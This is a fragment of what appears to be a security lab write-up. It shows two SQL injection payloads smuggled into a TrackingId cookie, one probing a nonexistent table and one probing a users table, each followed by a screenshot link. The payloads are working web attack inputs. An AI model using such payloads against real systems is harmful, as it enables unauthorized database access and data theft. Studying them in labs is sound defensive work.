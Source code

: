 * Cookie: TrackingId=Cqduog6aHApTYY1C'||(SELECT '' FROM not-a-real-table)||';

![alt text](image-31.png)


* Cookie: TrackingId=Cqduog6aHApTYY1C'||(SELECT '' FROM users WHERE ROWNUM = 1)||';

![alt text](image-32.png)
